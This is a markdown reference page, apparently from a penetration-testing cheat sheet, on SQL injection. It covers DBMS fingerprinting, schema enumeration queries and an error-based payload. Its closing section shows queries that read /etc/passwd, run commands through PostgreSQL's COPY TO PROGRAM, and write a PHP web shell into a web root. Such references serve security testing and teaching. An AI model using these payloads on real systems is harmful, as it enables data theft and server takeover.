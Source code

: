 ```yaml
---
title: "SQL Injection"
description: "Overview of SQL Injection"
lead: "Overview of SQL Injection"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "server-side"
weight: 620
toc: true
---
```


## Definition

**SQL injection** allows attackers to execute malicious SQL queries through user input areas, potentially accessing, modifying, or deleting data.

## DMBS Identification

### Version

| DBMS        | Query                      | Output (example) |
| ----------- | -------------------------- | ---------------- |
| SQLite      | `SELECT sqlite_version()`  | 3.42.0           |
| MySQL       | `SELECT VERSION()`         | 5.7.38           |
| PostgreSQL  | `SELECT version()`         | PostgreSQL 14.8 ... |

### SQL Functions

| PostgreSQL           | SQLite              | MySQL               |
| -------------------- | ------------------- | ------------------- |
| `'a'\|\|'b'`         | `'a'\|\|'b'`        | `'a' 'b'`           |
| `POW(3,2)`           | `POW(3,2)`          | `POW(3,2)`          |
| `CHR(65)`            | `CHAR(65)`          | `CHAR(65)`          |
| `ASCII('A')`         | `UNICODE('A')`      | `ASCII('A')`        |
| `SUBSTR('abc',2,1)`  | `SUBSTR('abc',2,1)` | `SUBSTR('abc',2,1)` |
| `PG_SLEEP(4)`        | *Unknown*           | `SLEEP(4)`          |
| `SIMILAR TO`, `~`    | `REGEXP`, `GLOB`    | `REGEXP`            |

### Testing & Documentation

- [PostgreSQL - Online](https://onecompiler.com/postgresql/) - [Docs](https://www.postgresql.org/docs/)
- [MySQL - Online](https://onecompiler.com/mysql/) - [Docs](https://dev.mysql.com/doc/refman/8.0/en/)
- [MariaDB - Online](https://onecompiler.com/mariadb/)
- [Microsoft SQL Server - Online](https://onecompiler.com/sqlserver)
- [Oracle - Online](https://livesql.oracle.com/)
- SQLite3: run the command `sqlite3` - [Docs](https://www.sqlite.org/docs.html)

## Database enumeration

### MySQL

```
SELECT GROUP_CONCAT(schema_name,',') FROM information_schema.schemata;
SELECT GROUP_CONCAT(table_name,',') FROM information_schema.tables;
SELECT GROUP_CONCAT(column_name,',') FROM information_schema.columns WHERE table_name = 'users';
```

### PostgreSQL

```
SELECT string_agg(table_name,',') FROM information_schema.tables;
SELECT string_agg(column_name,',') FROM information_schema.columns WHERE table_name = 'users';
```

### SQLite

```
SELECT GROUP_CONCAT(tbl_name,',') FROM sqlite_master WHERE type='table' AND tbl_name NOT like 'sqlite_%';
SELECT sql FROM sqlite_master WHERE tbl_name='users';
SELECT GROUP_CONCAT(name,',') FROM PRAGMA_TABLE_INFO('users');
```

## Error based

### PostgreSQL

```
' AND 1=CAST((SELECT username FROM users) AS int)--
```

## File read/write & RCE

### PostgreSQL

```
SELECT pg_ls_dir('.');
SELECT pg_read_file('/etc/passwd');
COPY (SELECT '') TO PROGRAM 'sleep 5';
```

### MySQL

```
SELECT LOAD_FILE('/etc/passwd');
SELECT '<?php system($_REQUEST[c]); ?>' INTO OUTFILE '/var/www/html/shell.php';
```
